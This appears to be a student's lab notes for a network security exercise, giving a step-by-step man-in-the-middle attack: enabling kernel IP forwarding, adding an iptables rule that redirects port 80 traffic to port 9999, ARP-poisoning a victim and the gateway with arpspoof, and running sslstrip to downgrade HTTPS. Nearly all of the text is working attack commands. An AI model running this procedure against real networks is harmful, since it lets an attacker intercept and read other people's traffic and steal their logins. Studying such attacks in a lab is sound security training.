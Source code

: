 change kernel configuration and iptables to forward traffic from one target to another (victim <-> gateway) -> arp poisoning -> ssl stripping


enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (sudoers don't have such priviledges :O)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  

`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`      
to save rules passed via cli to conf file: `iptables-save -f` `/etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](zad8.md)  
OR  
`sudo apt install dsniff` dsniff contains i.a. `arpspoof`  
`sudo arpspoof -i eth0 -t <targetIP> <IP I'm supposed to be (gateway)>`

`sslstrip -l 9999`     